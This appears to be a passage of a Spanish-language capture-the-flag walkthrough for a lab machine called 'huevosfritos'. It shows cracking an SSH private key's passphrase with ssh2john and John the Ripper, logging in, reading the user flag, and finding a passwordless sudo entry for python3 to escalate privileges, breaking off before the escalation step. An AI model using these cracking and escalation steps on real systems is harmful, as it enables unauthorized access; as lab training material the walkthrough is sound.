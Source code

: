 Cópiala en tu máquina y dale los permisos correctos:
```bash
nano id_rsa
--------
chmod 600 id_rsa
```

Obtengamos el hash de esa llave privada con **ssh2john**:
```bash
ssh2john id_rsa > hash
```

Y vamos a crackear ese hash con **JohnTheRipper**:
```bash
john -w:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
honda1           (id_rsa)     
1g 0:00:01:47 DONE (2025-07-15 13:25) 0.009269g/s 32.92p/s 32.92c/s 32.92C/s Password1..01234
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Tardo un poco, pero ya tenemos la frase usada en la llave privada.

Probemos esta llave con el **usuario huevosfritos**:
```bash
ssh -i id_rsa huevosfritos@192.168.10.190
Enter passphrase for key 'id_rsa': 
Linux huevosfritos 6.1.0-21-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.90-1 (2024-05-03) x86_64
...
Last login: Sun Jun 16 12:24:42 2024
huevosfritos@huevosfritos:~$ whoami
huevosfritos
```
Excelente, ahora nos autenticamos vía **SSH**.

Ahora sí podemos leer la flag del usuario:
```bash
huevosfritos@huevosfritos:~$ ls
user.txt
huevosfritos@huevosfritos:~$ cat user.txt
...
```

<br>

<h2 id="python3">Escalando Privilegios con Binario Python3</h2>

Ya que estamos con este usuario, vemos si podemos ver qué privilegios tiene:
```bash
huevosfritos@huevosfritos:~$ sudo -l
Matching Defaults entries for huevosfritos on huevosfritos:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User huevosfritos may run the following commands on huevosfritos:
    (root) NOPASSWD: /usr/bin/python3
```
Muy bien, podemos usar el **binario python3** como **Root**.
